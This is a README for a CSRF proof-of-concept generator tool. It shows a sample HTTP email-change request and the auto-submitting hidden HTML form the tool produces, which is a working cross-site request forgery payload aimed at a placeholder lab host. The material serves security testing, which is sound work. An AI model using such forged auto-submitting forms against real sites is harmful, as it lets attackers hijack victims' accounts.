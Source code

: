 # CSRF-PoC-generator

https://csrf-poc-generator.vercel.app/

With this user-friendly tool, you can easily generate proof-of-concept (PoC) scripts for CSRF attacks by entering your HTTP requests and verify the effectiveness of your existing security measures. The PoC scripts generated by CSRF-PoC-Generator are customizable, allowing you to simulate real-world scenarios and fine-tune your security measures accordingly.

Your feedbacks are appreciated.

Example Request
---
```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

PoC generated
---
```
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="wiener@normal-user.com" />
    </form>
    <script>
      document.forms[0].submit()
    </script>
  </body>
</html>
```
